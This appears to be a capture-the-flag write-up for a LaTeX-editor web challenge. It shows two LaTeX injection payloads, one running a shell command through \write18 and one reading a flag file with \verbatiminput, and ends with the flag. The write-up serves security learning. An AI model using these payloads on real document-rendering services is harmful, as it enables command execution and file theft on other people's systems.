



# MATH6025 - Discrete Mathematics

"Solve this math assigment" Then my ai proceeds to use some weird markup language for my math assigment. I asked the ai to make me a website so that i can use this language for my future assigment. Let's hope there's no naughty highschooler that will inject my site lol

Author: sierra

## Analysis



Usual Latex editor, looking at source code doesn't result in anything important. However, description mentions about injecting the site (*Let's hope there's no naughty highschooler that will inject my site lol*)

So the challenge is about **Latex injection**.

A quick search about latex injection leads to https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

I simply used the following payload to do command execution:

```latex
\begin{document}
\immediate\write18{ls .. > testss}
\input{testss}
\end{document}
```

I did `ls ..` as flag wasn't in `ls .` (current dir).



Then output the flag using another payload:

```latex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{../flag.txt}
\end{document}
```

> [!tip] Tip (since I missed this)
> To use a package like `verbatim`, a `\documentclass{...}` is necessary to initialize the global layout first.



Flag: `BeeCTF{Duh_dismathlagi_dismathLagi_disssnutz_hehehehheeh_galucu_ya:(}`